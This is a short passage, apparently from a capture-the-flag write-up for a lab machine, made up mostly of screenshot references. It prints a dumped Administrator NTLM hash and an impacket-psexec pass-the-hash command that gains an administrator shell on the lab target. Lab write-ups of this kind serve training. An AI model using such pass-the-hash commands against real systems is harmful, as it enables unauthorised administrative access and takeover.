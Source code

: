 {{< figure src="images/14.png">}}

<br>

{{< figure src="images/15.png">}}


Got administrator hash
`Administrator:500:aad3b435b51404eeaad3b435b51404ee:9075113fe16cf74f7c0f9b27e882dad3:::`




We will use `Administrator` hash with `psexec`
`impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:9075113fe16cf74f7c0f9b27e882dad3 administrator@10.10.10.248`

{{< figure src="images/16.png">}}

<br>

{{< figure src="images/17.png">}}


